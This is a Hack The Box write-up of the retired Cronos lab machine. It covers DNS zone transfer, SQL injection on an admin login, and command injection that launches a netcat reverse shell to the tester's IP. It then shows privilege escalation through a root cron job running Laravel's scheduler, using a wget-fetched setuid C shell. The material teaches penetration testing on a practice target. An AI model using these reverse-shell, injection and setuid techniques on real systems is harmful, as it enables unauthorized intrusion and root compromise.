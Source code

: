 # Cronos

This is the write-up for the box Cronos that got retired at the 5th August 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.13    cronos.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/cronos.nmap 10.10.10.13
```

```markdown
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we see the Apache2 default page.
As this server has DNS open there will probably be _Virtual Host Routing_ active so lets visit the site with the hostname **cronos.htb**.

Now we see a real web page with this:

![Cronos web page](cronos_web-page.png)

All the links have something to do with a software called **Laravel** which is a PHP framework.
As this won't help much we start _Gobuster_ to look for hidden paths on this site:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://cronos.htb/
```

We only get _/server-status_ but with a HTTP code 403 (Forbidden).

## Checking DNS (Port 53)

As the DNS service runs on TCP, which is unusual, we will check for _DNS Zone Transfer records_:
```markdown
dig axfr @10.10.10.13 cronos.htb
```
```markdown
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

The most interesting one is probably **admin.cronos.htb** so lets put the domains in the _Hosts_ file and browse there.
It gives us a login page:

![Cronos login page](cronos_login-page.png)

### Exploiting the Login Page

After copying the request for the login page and saving it as a file (login.req) we try a SQL Injection with _SQLMap_ on this:
```markdown
sqlmap -r login.req
```

Interesting output from SQLMap:
> sqlmap got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n]

> POST parameter 'username' is vulnerable.(...)

So lets try a basic SQL Injection on the username field:

![Cronos SQL Injection](cronos_sqli.png)

And we are logged in and see this page:

![Cronos Welcome page](cronos_welcome-page.png)

### Exploiting the Net Tool

This page executes the commands _traceroute_ and _ping_ from the system so lets try basic command injection by appending another command after a semicolon.
Appending `; whoami` on the input field gives us the output _www-data_ so we have command execution and will start a reverse shell that listens on my IP and port 9001:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9001 >/tmp/f

# In the request and URL-encoded:
command=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.8+9001+>/tmp/f
```

And we have a reverse shell session on the box!

## Privilege Escalation

Uploading and starting the enumeration script **LinEnum.sh** and looking at the output we see a cronjob that we want to exploit.
> \* \* \* \* \*    root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

The cronjob runs a Laravel command every minute as root and this can get us command execution as root.
On the [Laravel documentation](https://laravel.com/docs/5.8/scheduling) we can see how the scheduled commands work and create our own commands.

First we need to find the file **Kernel.php**:
```markdown
find / -iname Kernel.php 2>/dev/null

/var/www/laravel/app/Console/Kernel.php
```

We will modify the schedule function in this file to create the file _test_ in the _/tmp_ directory:
```php
//(...)
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('touch /tmp/test')->everyMinute(); //The line we add
        // $schedule->command('inspire')
        //          ->hourly();
    }
//(...)
```

After on minute the command gets automatically executed and file got created with root permissions.
That means we can compile a TTY shell and execute it to start a session with root.

We create a file named **shell.c** with this content:
```c
int main(void)
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

And compile it:
```markdown
gcc shell.c -o shell
```

Now we need to upload this shell on the box and make it executable:
```markdown
# Downloading the binary on the box
wget http://10.10.14.8:8000/shell

# Making it executable
chmod +x shell
```

And we need modify the _Kernel.php_ script to give it the setuid bit and change the owner to root, so it runs as root:
```php
//(...)
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/shell; chmod 4755 /tmp/shell')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }
//(...)
```

After one minute it runs and we can run the binary and get a root shell!
